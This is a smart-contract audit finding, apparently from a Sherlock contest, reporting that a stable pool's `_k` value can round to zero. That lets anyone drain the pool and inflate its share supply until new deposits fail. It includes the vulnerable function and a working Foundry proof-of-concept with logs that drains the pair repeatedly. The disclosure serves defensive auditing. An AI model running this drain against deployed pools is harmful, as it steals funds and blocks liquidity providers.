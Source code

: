 Keen Black Dalmatian

High

# first LP provider may cause pool dos

## Summary
The calculation of `_k` may be 0 because of round down. If the `_k` is 0, anyone can drain the pool via `swap()`

## Vulnerability Detail
The `_k` value's calculation for stable pool is a little different with other pools. 
In the below format, if `(_x * _y) < 1e18`, the `_a` will be zero, and the `_k` will be zero. If the `_k` is zero, anyone can drain the pool via `swap()`.
And `(_x * _y) < 1e18` is possible. Considering below case:
Stable Coin A: decimal 18, Stable Coin B: decimal 18.
The first LP add liquidity with 1e7 Stable Coin A and 1e7 Stable Coin B. The `_k` will be zero.
Based on `_k` = 0, malicious users can drain the whole pool via swap(), and left only one or two wei in the pool. This will cause the share's price is very low. When the malicious users try to add liquidity again, they can increase the pool's `totalSupply` very quickly because of share's low price. Malicious users can make use of this vulnerability to move pool's `totalSupply` reaches `max(uint256)`. After that, anyone cannot add liquidity into the pool. The pool will keep dos.

```javascript
    function _k(uint x, uint y) internal view returns (uint) {
        if (stable) {
            uint _x = x * 1e18 / decimals0; // token0 dollar value
            uint _y = y * 1e18 / decimals1; // token1 dollar value
 @==> uint _a = (_x * _y) / 1e18; //
            uint _b = ((_x * _x) / 1e18 + (_y * _y) / 1e18);
            return _a * _b / 1e18;  // x3y+y3x >= k
        } else {
            return x * y; // xy >= k
        }
    }
```
### Poc
refactor the existing test case to test this case. Take FRAX & DAI as the example.
```javascript
    function drainPair(Pair pair, uint initialFraxAmount, uint initialDaiAmount) internal {
        DAI.transfer(address(pair), 1);
        uint amount0;
        uint amount1;
        if (address(DAI) < address(FRAX)) {
            amount0 = 0;
            amount1 = initialFraxAmount - 1;
        } else {
            amount1 = 0;
            amount0 = initialFraxAmount - 1;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
        FRAX.transfer(address(pair), 1);
        if (address(DAI) < address(FRAX)) {
            amount0 = initialDaiAmount; // initialDaiAmount + 1 - 1
            amount1 = 0;
        } else {
            amount1 = initialDaiAmount; // initialDaiAmount + 1 - 1 amount0 = 0;
            amount0 = 0;
        }
        pair.swap(amount0, amount1, address(this), new bytes(0));
    }

    function testdeployPairK() public {
        deployCoins();
        deployPairFactoryAndRouter();

        FRAX.approve(address(router), 300*TOKEN_1);
        DAI.approve(address(router), 300*TOKEN_1);
        deal(address(DAI), address(this), 100 ether);
        deal(address(FRAX), address(this), 100 ether);
        address createdPair = factory.createPair(address(DAI), address(FRAX), true);
        Pair pair = Pair(createdPair);
        console.log(DAI.balanceOf(address(this)));
        for(uint256 i = 0; i < 10; i++) {
            DAI.transfer(address(pair), 10_000_000);
            FRAX.transfer(address(pair), 10_000_000);
            uint liquidity = pair.mint(address(this));
            console.log("total liq:", Pair(pair).balanceOf(address(this)));
            drainPair(pair, FRAX.balanceOf(address(pair)) , DAI.balanceOf(address(pair)));
        }
        DAI.transfer(address(pair), 1 ether);
        FRAX.transfer(address(pair), 1 ether);
        vm.expectRevert();
        pair.mint(address(this));
    }
```
The output log is as below:
```bash
Logs:
  100000000000000000000
  total liq: 9999000
  total liq: 50000009999000
  total liq: 250000100000009999000
  total liq: 1250000750000150000009999000
  total liq: 6250005000001500000200000009999000
  total liq: 31250031250012500002500000250000009999000
  total liq: 156250187500093750025000003750000300000009999000
  total liq: 781251093750656250218750043750005250000350000009999000
  total liq: 3906256250004375001750000437500070000007000000400000009999000
  total liq: 19531285156278125013125003937500787500105000009000000450000009999000

```
## Impact
The pool's 'totalSupply' will be near the max(uint256) because of this vulnerability, anyone cannot add liquidity any more.

## Code Snippet
https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/Pair.sol#L403-L413

## Tool used

Manual Review

## Recommendation
Suggest adding one minimum `_k` for stable pool.